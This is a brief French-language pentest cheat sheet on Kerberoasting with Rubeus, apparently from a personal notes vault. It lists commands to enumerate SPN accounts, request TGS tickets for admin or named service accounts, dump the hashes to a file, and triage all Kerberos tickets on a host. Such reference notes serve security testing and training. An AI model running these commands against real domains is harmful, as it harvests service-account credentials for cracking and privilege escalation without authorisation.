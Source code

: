 ```yaml
---
public: true
---
```


Il réalise les opérations suivantes :

- découverte des SPNs
- Dump des TGS
- Obtention des Hashs

```shell
# affiche un récapitulatif des comptes avec des SPNs 
# détaille certaines informations telles que :
# - les comptes dont le mot de passe est ancien
# - le nombre de comptes par méthode de hachage (rc4, aes128 etc)
./Rubeus.exe kerberoast /stats

# demande de TGS pour les comptes ayant 'Admincount' à 1
./Rubeus.exe kerberoast /ldapfilter:'admincount=1'

# Demande du TGS pour un utilisateur particulier pour un domaine particulier
./Rubeus.exe kerberoast /user:mssqlsvc /domain:domain.loca /nowrap

./Rubeus.exe kerberoast /outfile:hash.txt
```

[[Cassage de mots de passes Kerberos]]

## Affichage de tous les tickets kerberos

De l'utilisateur courant ou de tous ce qui est sur le système (si admin)

```shell
.\Rubeus.exe triage
```



## Références
- <https://specterops.gitbook.io/ghostpack/rubeus/ticket-extraction-and-harvesting3>
- <https://www.hackingarticles.in/a-detailed-guide-on-rubeus/>
